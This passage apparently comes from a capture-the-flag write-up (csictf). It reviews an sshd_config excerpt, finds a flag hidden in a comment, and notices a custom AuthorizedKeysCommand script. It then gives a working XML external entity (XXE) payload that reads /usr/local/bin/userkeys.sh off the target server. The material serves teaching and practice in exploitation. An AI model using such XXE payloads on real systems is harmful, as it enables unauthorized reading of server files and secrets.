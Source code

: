 ```
#X11DisplayOffset 10
#X11UseLocalhost yes
#PermitTTY yes
PrintMotd no
#PrintLastLog yes
#TCPKeepAlive yes
#PermitUserEnvironment no
#Compression delayed
#ClientAliveInterval 0
#ClientAliveCountMax 3
#UseDNS no
#PidFile /var/run/sshd.pid
#MaxStartups 10:30:100
#PermitTunnel no
#ChrootDirectory none
#VersionAddendum none

# no default banner path
#Banner none

# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

# override default of no subsystems
Subsystem\tsftp\t/usr/lib/openssh/sftp-server

# Example of overriding settings on a per-user basis
#Match User anoncvs
#\tX11Forwarding no
#\tAllowTcpForwarding no
#\tPermitTTY no
#\tForceCommand cvs server"
```

Lets focus on `AuthorizedKeysCommand` right below the previous flag in the config file,
```
#AuthorizedPrincipalsFile none
# csictf{cu5t0m_4uth0rizat10n}
AuthorizedKeysCommand /usr/local/bin/userkeys.sh
AuthorizedKeysCommandUser nobody
```
Hmm, seems like they are using a custom check for authorizing the users. Wish we could read what is in the /usr/local/bin/userkeys.sh. Oh yes, we have that xml vulnerability. Lets use that to get the contents of the file.
Using this payload for xml injection, 
```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///usr/local/bin/userkeys.sh'>]><root>&test;</root>
```

![alt text]({{site.baseurl}}/assets/HTB-0x[2-6]/1.png)
